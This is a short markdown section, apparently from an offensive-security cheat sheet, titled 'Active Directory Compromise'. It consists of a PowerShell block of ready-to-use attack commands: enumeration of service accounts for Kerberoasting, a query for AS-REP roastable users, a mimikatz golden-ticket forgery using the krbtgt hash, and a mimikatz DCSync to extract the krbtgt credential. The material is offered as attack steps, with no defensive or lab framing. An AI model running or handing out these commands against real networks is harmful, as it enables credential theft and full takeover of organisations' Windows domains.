 ### 8. Active Directory Compromise
```powershell
# Kerberoasting attack
Add-Type -AssemblyName System.DirectoryServices.AccountManagement
$searcher = [adsisearcher]"(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }

# AS-REP roasting
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth

# Golden ticket attack (after domain admin compromise)
mimikatz "kerberos::golden /user:administrator /domain:domain.com /sid:S-1-5-21-... /krbtgt:hash /ticket:golden.kirbi"

# DCSync attack
mimikatz "lsadump::dcsync /domain:domain.com /user:krbtgt"
```